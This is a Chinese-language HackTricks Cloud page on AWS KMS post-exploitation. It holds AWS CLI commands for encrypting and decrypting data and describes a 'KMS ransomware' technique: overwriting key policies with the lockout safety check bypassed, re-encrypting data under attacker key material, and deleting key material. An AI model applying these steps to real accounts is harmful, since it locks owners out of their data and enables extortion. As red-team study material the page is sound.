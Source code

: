# AWS - KMS 后期利用

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## KMS

有关更多信息，请查看：

{% content-ref url="../aws-services/aws-kms-enum.md" %}
[aws-kms-enum.md](../aws-services/aws-kms-enum.md)
{% endcontent-ref %}

### 加密/解密信息

{% hint style="success" %}
请注意，如果您想解密文件中的某些数据，文件必须包含二进制数据，而不是 base64 编码的数据。
{% endhint %}

* 使用 **对称** 密钥
```bash
# Encrypt data
aws kms encrypt \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--output text \
--query Plaintext | base64 \
--decode
```
* 使用**非对称**密钥：
```bash
# Encrypt data
aws kms encrypt \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--output text \
--query Plaintext | base64 \
--decode
```
### KMS Ransomware

拥有 KMS 特权访问权限的攻击者可以修改密钥的 KMS 策略并**授予他的账户访问权限**，同时移除授予合法账户的访问权限。

然后，合法账户的用户将无法访问任何使用这些密钥加密的服务的信息，从而在账户上创建一个简单但有效的勒索软件。

{% hint style="warning" %}
请注意，**AWS 管理的密钥不受此攻击影响**，只有**客户管理的密钥**。

还需注意使用参数 **`--bypass-policy-lockout-safety-check`** 的必要性（在网页控制台中缺少此选项使得此攻击仅能通过 CLI 实现）。
{% endhint %}
```bash
# Force policy change
aws kms put-key-policy --key-id mrk-c10357313a644d69b4b28b88523ef20c \
--policy-name default \
--policy file:///tmp/policy.yaml \
--bypass-policy-lockout-safety-check

{
"Id": "key-consolepolicy-3",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Enable IAM User Permissions",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<your_own_account>:root"
},
"Action": "kms:*",
"Resource": "*"
}
]
}
```
{% hint style="danger" %}
请注意，如果您更改该策略并仅向外部帐户授予访问权限，然后从该外部帐户尝试设置新策略以**将访问权限恢复到原始帐户，您将无法**。
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (77).png" alt=""><figcaption></figcaption></figure>

### 通用 KMS 勒索软件

#### 全球 KMS 勒索软件

执行全球 KMS 勒索软件还有另一种方法，涉及以下步骤：

* 创建一个**由攻击者导入的密钥材料的新密钥**
* **使用新密钥重新加密**使用先前版本加密的旧数据。
* **删除 KMS 密钥**
* 现在只有拥有原始密钥材料的攻击者才能解密加密数据

### 销毁密钥
```bash
# Destoy they key material previously imported making the key useless
aws kms delete-imported-key-material --key-id 1234abcd-12ab-34cd-56ef-1234567890ab

# Schedule the destoy of a key (min wait time is 7 days)
aws kms schedule-key-deletion \
--key-id arn:aws:kms:us-west-2:123456789012:key/1234abcd-12ab-34cd-56ef-1234567890ab \
--pending-window-in-days 7
```
{% hint style="danger" %}
请注意，AWS 现在**防止从跨账户执行之前的操作：**
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (76).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 **上关注我们** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
